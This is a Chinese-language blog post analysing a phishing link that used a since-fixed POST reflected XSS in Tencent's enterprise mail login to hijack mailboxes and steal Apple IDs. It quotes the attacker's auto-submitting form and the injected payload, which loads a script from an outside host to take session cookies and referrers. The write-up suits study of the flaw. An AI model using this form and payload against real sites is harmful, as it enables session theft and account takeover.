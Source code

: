 ```yaml
---
layout: post
title: 腾讯企业邮箱跨站漏洞分析
---
```

中午朋友发来一个帖子询问我《[朋友 6S 被偷了，小偷（可能是团伙）发来链接偷取 APPLE ID](http://v2ex.com/t/232901)》是什么原理，之后和 RickGay 看了下是利用腾讯企业邮箱的 POST XSS 进行的盗取登录操作，从而登录受害者邮箱获取 APPLE ID。（目前腾讯已经修复此漏洞）

Target: http://eeee.washbowl.com.cn/

View-source:
![http://ww1.sinaimg.cn/large/c334041bgw1exmoyt2y2jj20hw07pgmj.jpg](http://ww1.sinaimg.cn/large/c334041bgw1exmoyt2y2jj20hw07pgmj.jpg)

网页嵌入两个 iframe ，重点在 /htmlpage5.html:

    <html>
    <head>
        <meta charset="utf-8" />
        <title>qqjs4</title>
    </head>
    <body>
        <script>
            function test(PARAMS) {
                var temp = document.createElement("form");
                temp.acceptCharset = "utf-8";
                //By Wfox
                temp.action = 'http://m.exmail.qq.com/cgi-bin/login';
                temp.method = "post";
                temp.style.display = "none";
                for (var x in PARAMS) {
                    var opt = document.createElement("textarea");
                    opt.name = x;
                    opt.value = PARAMS[x];
                    temp.appendChild(opt);
                }
                document.body.appendChild(temp);
                temp.submit();
            }
            test({
                uin: '\\&quot;&lt;/script&gt;&lt;script src=http://ryige.com/q/8&gt;&lt;/script&gt;',
            });
        </script>
    </body>
    </html>

脚本向腾讯企业邮箱登录页面提交 XSS Payload ：

    \\&quot;&lt;/script&gt;&lt;script src=http://ryige.com/q/8&gt;&lt;/script&gt;
    
这个 POST 反射型 XSS 是由于企业邮箱登录报错未做过滤处理导致：

![http://ww4.sinaimg.cn/large/c334041bgw1exmp6f5hf5j20ug0bo76s.jpg](http://ww4.sinaimg.cn/large/c334041bgw1exmp6f5hf5j20ug0bo76s.jpg)

参数 uin ，攻击者注入 http://ryige.com/q/8 脚本：

![http://ww4.sinaimg.cn/large/c334041bgw1exmp3dzgknj20w40a4wgh.jpg](http://ww4.sinaimg.cn/large/c334041bgw1exmp3dzgknj20w40a4wgh.jpg)

Payload 将获取企业邮箱的 document.cookie & document.referrer 。

> 注：因腾讯企业邮箱不仅仅需要 Cookie 还需要登录成功后 URL sid 等信息；
